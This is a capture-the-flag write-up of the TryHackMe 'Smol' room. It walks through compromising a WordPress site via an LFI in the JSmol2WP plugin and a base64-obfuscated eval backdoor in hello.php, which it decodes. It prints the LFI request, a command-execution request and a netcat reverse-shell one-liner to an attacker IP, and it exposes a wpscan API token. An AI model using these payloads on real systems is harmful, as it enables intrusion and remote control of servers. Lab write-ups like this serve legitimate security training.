 # Write-up: **Smol**
[Smol](https://tryhackme.com/r/room/smol) is a medium-ranked CTF box that introduces us to vulnerable Wordpress plugins, highlighting the need for webmasters to keep dependencies up-to-date and to consider source and reputation of external packages. The vulnerable webpage allows the execution of malicious code, which gives the opportunity to gain a foothold on the system. Ultimately, root access is obtained through a combination of misconfigurations and poorly managed passwords.

## Reconaissance
As usual, our first step is to scan the victim's machine for open ports and identify services that are being offered. Using `nmap`, we scan the 1000 most popular ports.
```
nmap -sV smol.thm
```
As the result shows us, two ports are open, one offering SSH and the other an Apache webserver.
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

When we try to visit the website offered on port 80, we are being redirected to `www.smol.thm`, a domain that is unknown to our DNS server. Subsequently, we add the domain to our `/etc/hosts` file, allowing us to finally see the page.

![Initial view of webpage](img/Smol-InitialWebpage.png)

As we can see on the bottom-right of the page, the website is powered by the Wordpress framework. Therefore we can use `wpscan` to gather more information. Registering on [WPScan's website](https://wpscan.com/) allows you to additionally make use of API tokens, which enables `wpscan` to access the WordPress Vulnerability Database, basically allowing your scan to automatically detect vulnerable plugins and themes. Using the free-plan, one receives 25 tokens per day.
```
wpscan --url www.smol.thm --api-token WEHKBQUrGbrJWLv7F7yWCJoZkARqtYlh1DDnsZ46n6E
```
Among others, we are able to identify the follwing vulnerability in the JSmol2WP plugin, that allows us to manipulate server-sided requests, which can potentially be elevated to a LFI.
```
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
```
Following up the first reference, we find a proof of concept, allegedly allowing us to include files of the server into the rendered webpage.
```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

## Establishing a Foothold
Executing the PoC (*of course after having exchanged domain and port*) yields an interesting finding, since we can see the credentials of the MySQL user that is used by Wordpress.
```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', -REDACTED- );
```
If the developers that set up the server were prudent, they of course did not reuse those credentials for an actual user of the Wordpress blog. But were they? Since we can't directly navigate to the login page, we just open the blog article about RCEs and try to comment under it, which will redirect us to the login. And in fact, we can succesfully authenticate with the credentials that we just found.

We proceed to the admin section by clicking on the profile picture on the top-right of the page. There we can see that our user does not have an administrator role, since we can't see the user managament and plugins menu sections. On the other hand, we do have some kind of higher privilege, since we are able to maintain an internal page written by the administrator, listing his tasks.

![Internal wordpress page listing the webmaster's tasks](img/Smol-InternalPage.png)

Wait, hold up! The webmaster is talking about a backdoor in the "Hello Dolly" plugin? Wouldn't it be nice to inspect the content of this plugin, to see if the backdoor really does exist and how to make use of it? But since we're not administrators, we can't manage the Wordpress plugins and read their code - But we already have found a LFI, we just need to know where plugins are located and how they are structured.

Since Wordpress is a well-known and open-source framework, we can easily find out that plugins are located under `/wp-content/plugin/`. Digging a little deeper into the plugin "Hello Dolly", a minimalistic plugin for inserting little phrases into the webpage, we can also find out that this plugin is delivered as a single file, named `hello.php`. Let's include this file, as we did earlier with `wp-config.php` in the reconaissance stage.

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php
```

In it, we find the following suspicious line of code, that the run every time the plugin is invoked.

```
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

A line of code is added to `hello.php` by the `eval` statement, which is obfuscated by base64 encoding. Let's decode the line.

```
echo CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA= | base64 -d
```

> if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }

Interpreting the combination of octal and hexadecimal literals in the strings, we see that the existence of the GET parameter `cmd` is checked; if it exists, its value is being executed. We found ourselves a RCE!

Trying to invoke the backdoor by directly calling the `hello.php` script leads to an internal server error, which requires us to specify the `cmd` parameter on any other page that includes the "Hello Dolly" plugin functionality. This is for example the case on our profile page. Let's try a simple PoC.

```
http://www.smol.thm/wp-admin/profile.php?cmd=id
```

![Proof of concept for the remote code execution](img/Smol-RCE-PoC.png)

The following command allows us to establish a reverse shell. Of course, we have to listen on port 4444.

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc {Your IP} 4444 > /tmp/f
```

We URL encode it and append it to the blog's url, which gives us the final payload.

```
http://www.smol.thm/wp-admin/profile.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20{Your IP}%204444%20%3E%2Ftmp%2Ff
```

## Privilege Escalation
